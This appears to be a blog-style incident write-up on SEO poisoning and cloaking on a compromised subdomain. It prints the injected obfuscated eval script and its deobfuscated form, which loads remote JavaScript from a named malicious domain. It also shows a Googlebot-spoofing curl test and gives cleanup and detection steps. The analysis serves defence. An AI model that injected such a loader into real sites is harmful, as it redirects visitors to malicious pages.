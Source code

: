 ```yaml
---
title: 'SEO Poisoning'
date: '2025-08-10'
tags: ['SEO-POISONING']
draft: false
summary: 'SEO Poisoning is an attack designed to manipulate search engine algorithms, promoting malicious pages to appear in top positions in search results.'
images: ['/static/images/seo-poisoning-images/default.png']
authors: ['default']
---
```


![logo](/static/images/seo-poisoning-images/default.png)

---

# SEO Poisoning

It has been identified that the subdomain `REDACTED` is being used for SEO poisoning and redirecting visitors (especially indexing bots such as Googlebot) to gambling sites and malicious content.
The legitimate page is replaced by malicious HTML only when access is detected to be coming from a search engine bot.

SEO Poisoning is an attack designed to manipulate search engine algorithms, promoting malicious pages to appear in top positions in search results.

---

## Analysis

By performing a Google search for the domain `REDACTED`, it was possible to see that it is indexing several suspicious sites, mainly related to gambling:

```bash
site:https://REDACTED
```

![seopoisoning](/static/images/seo-poisoning-images/image.png)

Accessing the URL and capturing the request using a proxy (BurpSuite), it was possible to identify the execution of an obfuscated script:

![seopoisoning 1](/static/images/seo-poisoning-images/image5.png)

![seopoisoning 3](/static/images/seo-poisoning-images/image3.png)

```bash
<script>eval(function(p,a,c,k,e,d){e=function(c){return c};if(!''.replace(/^/,String)){while(c--) {d[c]=k[c]||c}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]) {p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('9.8("<0 7=\\"6://5.4.3/2.1\\"> </0>");',10,10,'script|js|brxxx|xyz|openconf|july|hxxps|src|write|document'.split('|'),0,{})) </script>
```

After deobfuscation, it was found that the code redirects to the URL `hxxps://july.openconf[.]xyz/brxxx.js`:

```bash
document.write("<script src=\"hxxps://july.openconf.xyz/brxxx.js\"></script>");
```

Accessing the URL revealed that the **brxxx.js** JavaScript file redirects the user to the malicious site `hxxps://9d[.]bet[.]br/?dt142s01`, in addition to loading external tracking SDKs and executing other suspicious scripts.
![seopoisoning 4](/static/images/seo-poisoning-images/image4.png)

---

## SEO Poisoning Confirmation

When the URL is accessed directly, the server returns a 404 error. However, when the same page is accessed via Google, it redirects to the malicious page.

This happens because, during Google’s indexing process, the server delivers an altered (malicious) HTML instead of the legitimate content. This technique is also known as Cloaking.

The simulation was carried out as follows:

**Simulating Googlebot access:**

```bash
curl -A "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" https://REDACTED
```

![seopoisoning 1](/static/images/seo-poisoning-images/image1.png)

**Normal access:**

```bash
curl https://REDACTED
```

![seopoisoning 2](/static/images/seo-poisoning-images/image2.png)

---

## Conclusion

Based on the evidence presented, there are strong indications that the server has been compromised and is being used to spread malicious content, especially through **SEO poisoning**, to redirect visitors and indexing bots to gambling sites and other potentially dangerous pages.

---

## Recommendations

- Locate infected files by searching directly for the identified malicious script pattern:

```bash
grep -R "eval(function(p,a,c,k,e,d)" /var/www/ 2>/dev/null
```

OBS: Note: Adjust **/var/www/** to the actual application path on the server.

- Search for direct references to the malicious URL:

```bash
grep -R "july.openconf.xyz" /var/www/ 2>/dev/null
```

- Check for persistence via suspicious scheduled tasks:

```bash
cat /etc/crontab
crontab -l
```

- Check for suspicious connections and processes:

```bash
ps aux
ss -tulnp
```

- Monitor suspicious processes using the pspy tool (https://github.com/DominicBreuker/pspy) to identify automated executions, backdoors, or rootkits that may reactivate the malicious code after cleanup.
- Block the malicious URL `july.openconf[.]xyz` in the firewall, proxy, or IDS to prevent reinfection and new payload downloads.
